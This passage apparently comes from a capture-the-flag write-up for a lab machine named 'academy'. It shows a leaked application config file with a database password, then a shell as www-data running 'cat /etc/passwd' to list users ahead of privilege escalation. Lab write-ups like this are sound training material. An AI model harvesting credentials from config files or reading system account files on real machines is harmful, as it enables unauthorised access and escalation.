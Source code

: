 ```console
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

Password: mySup3rP4s5w0rd!!

# Privilege Escalation to cry0l1t3

I got a password. Time to check the available users.

```console
www-data@academy:/var/www/html/academy$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```